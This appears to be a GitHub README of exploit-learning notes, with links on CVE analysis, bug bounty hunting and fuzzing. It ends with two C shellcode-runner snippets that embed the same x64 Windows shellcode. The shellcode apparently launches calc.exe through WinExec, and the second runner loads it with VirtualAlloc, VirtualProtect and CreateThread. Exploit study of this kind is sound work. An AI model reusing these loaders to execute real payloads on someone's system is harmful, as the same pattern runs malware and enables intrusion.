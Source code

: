 # Exploit-Application
- Questions
  * Begin analysis CVE Linux app service ?
  * Beginner to Advanced Bug Bounty Hunting Course ?
- References:
  * [CVE-Virtual Box](https://qriousec.github.io/post/vbox-pwn2own-2023/) .
  * https://starlabs.sg/blog/2020/04-adventures-in-hypervisor-oracle-virtualbox-research/ .
- Video
  * [HackSploit](https://www.youtube.com/watch?v=6PrC4z4tPB0&list=RDCMUC0ZTPkdxlAKf-V33tqXwi3Q&start_radio=1) .
  * https://www.youtube.com/watch?v=SwoN9aanH1E&list=PLZptvBlvUP8qLZRmbcEqc5LExliRb41iy
- Automatic Bounty
  * [Fuzzing](https://www.youtube.com/watch?v=QNksAVtOT4A&list=PLILVcu1djxZ371NYWjUryog0myJxRRWxQ) .
  * [libFuzzer](https://www.youtube.com/playlist?list=PL8XzbUzym18bRZnmKHzWrS99U3TqHzP-L) .
  * [Serius nói chuyện về Bug HUnter](https://www.youtube.com/playlist?list=PL7642iyielOziwBisTcqEvmTm6aAJWnDa) .
  * https://www.youtube.com/watch?v=oeEEZWI3cfM
- CVE train exploit github:
    * https://github.com/SadFud/Exploits
    * https://github.com/hongphipham95/Vulnerabilities
    * https://github.com/antonio-morales/Fuzzing101
    * https://github.com/qazbnm456/awesome-cve-poc
    * https://github.com/sagishahar/lpeworkshop
    * Tools Binary DiffApp

- Shellcode Test
```c
#include <windows.h>
#include <stdio.h>

char code[] = "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
"\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
"\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
"\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
"\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0"
"\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2"
"\x48\x83\xec\x20\x41\xff\xd6";

int main(int argc, char **argv)
{
  int (*func)();
  func = (int(*)()) code;
  (int)(*func)();
}
```

- https://www.exploit-db.com/shellcodes/49819

```c
// runShellcode.c
// C Shellcode Run Code referenced from reenz0h (twitter: @sektor7net)
#include <windows.h>
void main() {
    void* exec;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
    // Shellcode
    unsigned char payload[] =
        "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
        "\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
        "\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
        "\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
        "\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0"
        "\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2"
        "\x48\x83\xec\x20\x41\xff\xd6";
    unsigned int payload_len = 205;
    exec = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec, payload, payload_len);
    rv = VirtualProtect(exec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, 0);
    WaitForSingleObject(th, -1);
}
```

